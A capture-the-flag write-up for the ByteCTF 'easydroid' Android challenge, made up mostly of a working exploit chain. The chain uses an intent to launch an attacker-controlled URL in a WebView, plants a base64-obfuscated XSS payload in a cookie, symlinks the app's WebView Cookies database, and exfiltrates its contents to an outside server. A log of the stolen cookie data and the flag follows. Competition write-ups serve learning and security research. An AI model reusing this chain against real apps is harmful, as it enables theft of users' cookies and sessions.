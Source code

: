 ### easydroid | SOLVED | working : andrea & wrlu
- Kanxue SDC 2020 slides: https://zhuanlan.kanxue.com/article-14155.htm
- XSS + CookieGrabbing + Symlink: https://blog.oversecured.com/Evernote-Universal-XSS-theft-of-all-cookies-from-all-sites-and-more/
- local cookie file read use `file://` protocol, avaliable by default before target API 29: https://developer.android.google.cn/reference/android/webkit/WebSettings#setAllowFileAccess(boolean)

Key working:
- Primitive of launch any url with the WebView in `TestActivity`
```java=
public Uri visit_set_cookie_intent =
            Uri.parse("http://toutiao.com.bytectf.wrlus.com/visit_set_cookie_intent.html");
//...
exploitTestActivity(visit_set_cookie_intent);
//...
private void exploitTestActivity(Uri uri) {
        Intent intent = new Intent();
        intent.setData(uri);
        intent.setClassName("com.bytectf.easydroid",
                "com.bytectf.easydroid.MainActivity");
        startActivity(intent);
    }
```
and on the server side
```htmlmixed=
Exp Easy TestActivity (Visit setcookie.html)
<script>
        location.href = 'intent:#Intent;launchFlags=0x3;package=com.bytectf.easydroid;component=com.bytectf.easydroid/.TestActivity;S.url=http://toutiao.com.bytectf.wrlus.com/setcookie.html;end'
</script>
```
- This we can launch `http://toutiao.com.bytectf.wrlus.com/setcookie.html` with the WebView `TestActivity`

Full solutions:
1. Visit `setcookie.html` in `TestActivity`, and set cookie:
```htmlmixed=
Exp Easy WebView
<script> 
document.cookie = "x = '<img src=\"x\" onerror=\"eval(atob('bmV3IEltYWdlKCkuc3JjID0gImh0dHA6Ly90b3V0aWFvLmNvbS5ieXRlY3RmLndybHVzLmNvbT9mbGFnPSIgKyBlbmNvZGVVUklDb21wb25lbnQoZG9jdW1lbnQuZ2V0RWxlbWVudHNCeVRhZ05hbWUoImh0bWwiKVswXS5pbm5lckhUTUwp'))\">'"

</script>
```
2. Wait 40~45s for local cookie writting
3. Create a symbol link
```java=
private void createSymlink() {
        String rootCookieFile = "/data/data/com.bytectf.easydroid/app_webview/Default/Cookies";
        String symlinkFile = "/data/data/com.bytectf.pwneasydroid/symlink.html";

        try {
            Runtime.getRuntime().exec("ln -s " + rootCookieFile + " " + symlinkFile).waitFor();
//            Note: Must change permission for the whole folder !
            Runtime.getRuntime().exec("chmod -R 777 /data/data/com.bytectf.pwneasydroid/").waitFor();
            Runtime.getRuntime().exec("chmod 777 " + symlinkFile).waitFor();

            requestServer("ping=symlinkSucc&time" + new Date().toString());
        } catch (Exception e) {
            e.printStackTrace();
            requestServer("ping=createSymlinkError&time" + new Date().toString());
        }
    }
```
4. Visit the symbol link in `TestActivity` 
```htmlmixed=
Exp Easy TestActivity (Read symlink.html)
<script>
        location.href = 'intent:#Intent;launchFlags=0x3;package=com.bytectf.easydroid;component=com.bytectf.easydroid/.TestActivity;S.url=file:///data/data/com.bytectf.pwneasydroid/symlink.html;end'
</script>
```
5. The cookie file is loaded as a html file, and has a XSS:
```htmlmixed=
�Lite format 3@ .�
8�
�f%indexis_transientcookieCREATE INDEX is_transient ON cookies(persistent) where persistent != 1ACREATE INDEX domain ON cookies(host_key)�`tablecookiescookiesCREATE TABLE cookies (creation_utc INTEGER NOT NULL UNIQUE PRIMARY KEY,host_key TEXT NOT NULL,name TEXT NOT NULL,value TEXT NOT NULL,path TEXT NOT NULL,expires_utc INTEGER NOT NULL,secure INTEGER NOT NULL,httponly INTEGER NOT NULL,last_access_utc INTEGER NOT NULL, has_expires INTEGER NOT NULL DEFAULT 1, persistent INTEGER NOT NULL DEFAULT 1,priority INTEGER NOT NULL DEFAULT 1,encrypted_value BLOB DEFAULT '',firstpartyonly INTEGER NOT NULL DEFAULT 0)-Andexsqlite_autoindex_cookies_1cookiesf�/tablemetametaCREATE TABLE meta(key LONGVARCHAR NOT NULL UNIQUE PRIMARY KEY, value LONGVARCHAR)';indexsq����last_compatible_version5
ersion9#mmap_status-1
����last_compatible_version
����ˣѷ�!�E  mmap_status
toutiao.com.bytectf.wrlus.comx'<img src="x" onerror="eval(atob('bmV3IEltYWdlKCkuc3JjID0gImh0dHA6Ly90b3V0aWFvLmNvbS5ieXRlY3RmLndybHVzLmNvbT9mbGFnPSIgKyBlbmNvZGVVUklDb21wb25lbnQoZG9jdW1lbnQuZ2V0RWxlbWVudHNCeVRhZ05hbWUoImh0bWwiKVswXS5pbm5lckhUTUwp'))">'//-��!
��/-��!/-��!
��(Gtoutiao.com.bytectf.wrlus.com/-��!
��
/-��!
```
- The base64 part is
```javascript=
new Image().src = "http://toutiao.com.bytectf.wrlus.com?flag=" + encodeURIComponent(document.getElementsByTagName("html")[0].innerHTML)
```
6. Finally the original cookie file will be sent to the `http://toutiao.com.bytectf.wrlus.com?flag=` link

- Real server response:
```
//...
toutiao.comgftokenMjQ1NzkwODA3OHwxNjM0NDUzNzc0NTB8fDAGBgYGBgY//-â¢Åï¬Ã/-4Ã&gt;ÃcÃ³ÃÂ£âÃÂ¶Ë9!Ã tiktok.comflagQnl0ZUNURns5MTFjOTVhZi02MWI4LTQ2NTUtOGE0Zi1hMjk0MzBmMDcyMGV9//-4ÃÎ9
âÃÃ¿Æâ/-577c/-577c/-4Ã?%/-4Ã?%/-4Ã&gt;Ã/-4Ã&gt;Ã/-4ÃÎ9/-4ÃÎ9
Ã¢Åâ¤ÃÃ¢(Gtoutiao.com.bytectf.wrlus.com/-577c-.app.toutiao.com/-4Ã?%-.app.toutiao.com/-4Ã&gt;Ã!tiktok.com/-4ÃÎ9
ÃÃÃ/-577c/-4ÃÎ9</body> HTTP/1.1" 200 6 "-" "Mozilla/5.0 (Linux; Android 8.1.0; Android SDK built for x86_64 Build/OSM1.180201.023; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/61.0.3163.98 Mobile Safari/537.36"
```
- ByteCTF{911c95af-61b8-4655-8a4f-a29430f0720e}
